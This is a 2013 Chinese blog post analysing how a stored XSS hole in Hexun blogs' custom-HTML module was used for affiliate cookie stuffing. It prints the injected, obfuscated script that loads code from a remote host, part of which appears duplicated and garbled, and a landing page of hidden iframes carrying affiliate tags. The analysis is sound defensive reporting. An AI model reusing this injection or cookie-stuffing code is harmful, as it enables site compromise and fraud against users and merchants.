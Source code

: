 ```yaml
---
layout: post
status: publish
published: true
title: 和讯博客XSS漏洞被用于CS
author:
 display_name: chaoshikari
 login: chaoshikari
 email: chaoshikari@gmail.com
 url: http://blog.ch-wind.com
author_login: chaoshikari
author_email: chaoshikari@gmail.com
author_url: http://blog.ch-wind.com
wordpress_id: 802
wordpress_url: http://blog.ch-wind.com/?p=802
date: '2013-11-19 13:16:18 +0000'
date_gmt: '2013-11-19 05:16:18 +0000'
tags:
- hack
---
```

今天逛和讯博客看文章，顺便收集点人气。没想到碰到个在和讯利用xss漏洞做cs的。在和讯主要的操作方式是注册好账号，添加好相关代码然后不停的去各处顶贴，目测是用程序自动顶的。因为能看到的文章里面基本都能看到这样的顶贴记录，而且还是多账号的。


跳转的过程大致是这样的：



```
http://hexun.com/xxxxxxxx
http://hexun.com/xxxxxxxx/default.html
http://insure.dbxdb.com/e.php
http://farms.tw/shop/templates/ad1.html
```

xss的漏洞来源应该是博客文章，和讯的博客文章发布的时候代码检测并不十分严格。代码执行过程中访问了http://insure.dbxdb.com/ejs.php，输出内容是



```
location.href="http://insure.dbxdb.com/e.php";
```

估计是用这样的方法绕过了代码检测。


仔细的看了下，不是博客文章，而是在自定义html里面。关键的部分是这样的：



```
 <div id="SelfHtmlDivItem" class="side_content">   
        <p id="SelfHtmlImport0" align=left style="display:none">添加自定义HTML内容，<a href='http://i.hexun.com/manage/admin_moduleset.aspx?link=3'>点击添加</a></p>
        <p id="SelfHtmlImport1" align=left style="display:none">请等待审核，<a href='http://i.hexun.com/manage/admin_moduleset.aspx?link=3'>修改请点击这里</a></p>
	    <script>
	document.write('<scri');
	document.write('pt src');
	document.write('="http://insure.dbxd');
	document.write('b.com/ejs.php"><\/script>');
</script>
111,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,34,83,67,82,73,80,84,34,41,59,111,46,115,114,99,61,34,104,116,116,112,58,47,47,105,110,115,117,114,101,46,100,98,120,100,98,46,99,111,109,47,101,106,115,46,112,104,112,34,59,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,115,66,121,84,97,103,78,97,109,101,40,34,104,101,97,100,34,41,46,105,116,101,109,40,48,41,46,97,112,112,101,110,100,67,104,105,108,100,40,111,41,59),20xdb.com/ejs.ph111,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,34,83,67,82,73,80,84,34,41,59,111,46,115,114,99,61,34,104,116,116,112,58,47,47,105,110,115,117,114,101,46,100,98,120,100,98,46,99,111,109,47,101,106,115,46,112,104,112,34,59,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,115,66,121,84,97,103,78,97,109,101,40,34,104,101,97,100,34,41,46,105,116,101,109,40,48,41,46,97,112,112,101,110,100,67,104,105,108,100,40,111,41,59),20p
	</div>
```

最终跳转的页面源码如下：



```
<img src="http://g.search1.alicdn.com/img/bao/uploaded/i4/i4/17493037705800171/T1uqqOXv0gXXXXXXXX_!!0-item_pic.jpg_170x170.jpg" />

<div style="display:none;">
<EMBED SRC="ad.mp3" AUTOSTART=TRUE>

<script src="http://s96.cnzz.com/stat.php?id=1889573&web_id=1889573" language="JavaScript"></script>

<iframe width=0 height=0 frameborder=0 src="http://www.amazon.cn/b?_encoding=UTF8&camp=536&creative=3200&linkCode=ur2&node=49932071&tag=tie3net-23"></iframe>

<iframe width=0 height=0 frameborder=0 src="http://s.click.taobao.com/t?e=zGU34CA7K%2BPkqB07S4%2FK0CFcRfH0GoT805sipKaf%2FVLG1VK%2F3p8nxHfYXTB%2FXjAqwOU7mQs5RPdhLITkr2Okp%2BNMyKT82%2Bo3M2YtuXaO8tDjzw%3D%3D"></iframe>

<iframe width=0 height=0 frameborder=0 src="http://www.amazon.com/mn/landing/7593381011/?_encoding=UTF8&camp=1789&creative=390957&linkCode=ur2&tag=30-10-20"></iframe>

<iframe width=0 height=0 frameborder=0 src="http://www.amazon.cn/?tag=eqifarebate-23&ascsubtag=150|1|4435530"></iframe>

<iframe width=0 height=0 frameborder=0 src="http://www.amazon.cn/b/?_encoding=UTF8&camp=536&creative=3132&linkCode=ur2&node=339373071&tag=jyn-23"></iframe>

<iframe width=0 height=0 frameborder=0 src="http://www.amazon.com/b/?t=hanx01-20&camp=1789&creative=390957&linkCode=ur2&node=7795318011&pf_rd_i=B008626CSS&pf_rd_m=ATVPDKIKX0DER&pf_rd_p=1657478282&pf_rd_r=12P4PZPS5MC6TEGDCBX6&pf_rd_s=hero-quick-promo&pf_rd_t=201&tag=hanx01-20"></iframe>

<iframe src="http://www.qjhm.net"></iframe>

<script>
/*
setTimeout('location.href="http://www.amazon.cn/b?_encoding=UTF8&camp=536&creative=3200&linkCode=ur2&node=49932071&tag=tie3net-23";',5000);
*/
</script>

</div>
```

网页是静态的，看来没有进行复杂的多账号分割。同时也没有对Refer来源也进行保护，由于亚马逊有付款延迟，这样的手法基本靠运气。同时有往天猫去的cs和刷另外一个网页的展示。应该是想要尽可能的利用流量吧。


途中经过的网站insure.dbxdb.com本身也有在做亚马逊的cs，可见是和操作者有关的站点。另外一个在刷展示的站似乎有做备案，应该不至于是操作者的站。落点网站是岛民的站点，不知道是被黑的还是本人的站点，和前一个不一样有做whois保护，所以无法证实。不过目录的结构有点奇怪，不太可能不被站长发现，估计也是操作者的站。


过多的去探寻别人的个人信息是不礼貌的，所以我也就没有详细看了。


~~PS：这篇文章将会在漏洞被修补之后再取消密码保护，以免有断人财路之嫌。密码是我qq昵称:D~~


漏洞已经以某种形式被遏制住了。


